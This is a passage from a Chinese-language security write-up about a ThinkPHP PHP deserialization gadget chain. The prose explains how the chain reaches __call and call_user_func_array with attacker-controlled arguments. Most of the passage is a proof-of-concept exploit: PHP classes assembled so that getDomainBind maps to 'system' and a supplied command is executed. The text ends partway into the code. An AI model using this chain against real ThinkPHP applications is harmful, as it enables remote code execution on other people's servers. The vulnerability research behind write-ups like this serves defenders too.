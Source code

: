 到这里就可以触发`__call(value)`这样的方法了

![image-20211230202903452](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20211230202903452.png)

![image-20211230202914958](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20211230202914958.png)

现在就是call_user_func_array([可控]，可控)；可以任意调用类和方法

他后面还有一部分方法，但是我发现意义其实不是很大，已经可以任意执行代码了。

```
<?php
namespace think\model\concern{
    trait Attribute{
        private $data = [7];
    }
}

namespace think{
    abstract class Model{
        use model\concern\Attribute;
        // private $data = [7];
        private $lazySave;
        protected $withEvent;
        protected $table;
        function __construct($cmd){
            $this->lazySave = true;
            $this->withEvent = false;
            $this->table = new route\Url(new Middleware,new Validate,$cmd);
        }
    }
    class Middleware{
        public $request = 2333;
    }
    class Validate{
        protected $type;
        function __construct(){
             $this->type = [
                "getDomainBind" => "system"
            ];
        }
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{} 
}

namespace think\route{
    class Url
    {
        protected $url = 'a:';
        protected $domain;
        protected $app;
        protected $route;
        function __construct($app,$route,$cmd){
            $this->domain = $cmd;
            $this->app = $app;
            $this->route = $route;
        }
    }
}

namespace{
```